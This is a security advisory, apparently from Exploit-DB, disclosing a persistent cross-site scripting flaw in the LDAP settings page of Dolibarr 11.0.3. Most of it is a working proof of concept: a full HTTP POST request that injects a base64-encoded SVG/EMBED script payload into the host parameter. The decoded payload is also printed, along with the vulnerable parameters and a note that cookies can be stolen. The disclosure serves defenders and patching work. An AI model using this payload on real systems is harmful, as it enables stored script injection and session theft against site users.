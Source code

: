Title: Dolibarr 11.0.3 - Persistent Cross-Site Scripting<br>
Author: Mehmet Kelepce / Gais Cyber Security<br>
Date : 2020-04-14<br>
Vendor: https://www.dolibarr.org/<br>
Exploit-DB Author ID: 8763<br>
Remotely Exploitable: Yes<br>
Dynamic Coding Language: PHP<br>
CVSSv3 Base Score: 7.4 (AV:N, AC:L, PR:L, UI:N, S:C, C:L, I:L, A:L)<br>
Bug: XSS - Cross Site Scripting<br>
CVE:<br>
this vulnerability was found by examining the source code.<br>
<br>
PoC : Dolibarr 11.0.3 LDAP Synchronization Settings - HTTP POST REQUEST<br>
<br>
POST /dolibarr/admin/ldap.php?action=setvalue HTTP/1.1<br>
Host: localhost<br>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br>
Accept-Language: en-US,en;q=0.5<br>
Accept-Encoding: gzip, deflate<br>
Referer: http://localhost/dolibarr/admin/ldap.php?action=test<br>
Content-Type: application/x-www-form-urlencoded<br>
Content-Length: 723<br>
Connection: close<br>
Cookie: DOLSESSID_08b25d38fe3d8c5d83c5477f93783b26=abml2gjafuuqcos5lm1053tqu6; DOLINSTALLNOPING_b832abc1aadf61021c84b3def6cdf1e6=0<br>
Upgrade-Insecure-Requests: 1<br><br>

token=%242y%2410%245CjT4.D4w8Qe.uaL.pHuSeDOW9PB2gnNQ7MhYrYUt7W8hq2R3oXBe&activesynchro=0&activecontact=0&type=activedirectory&LDAP_SERVER_PROTOCOLVERSION=3&host=%22%3E%3CEMBED+SRC%3D%22data%3Aimage%2Fsvg%2Bxml%3Bbase64%2CPHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI%2BYWxlcnQoJ0hlbGxvLCBEb2xpYmFyciEnKTs8L3NjcmlwdD48L3N2Zz4%3D%22+type%3D%22image%2Fsvg%2Bxml%22+AllowScriptAccess%3D%22always%22%3E%3C%2FEMBED%3E&slave=&port=389&dn=&usetls=0&admin=&pass=
<br>
Vulnerable parameters: host,slave,port<br>
Payload (base64): PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoJ0hlbGxvLCBEb2xpYmFyciEnKTs8L3NjcmlwdD48L3N2Zz4=
<br>Payload (decode) : <svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.0" x="0" y="0" width="194" height="200" id="xss"><script type="text/ecmascript">alert('Hello, Dolibarr!');</script></svg>
<br>
Parameter file: /dolibarr/admin/ldap.php<br>
<br>
Risk : cookie information of the target user is obtained.<br>
            
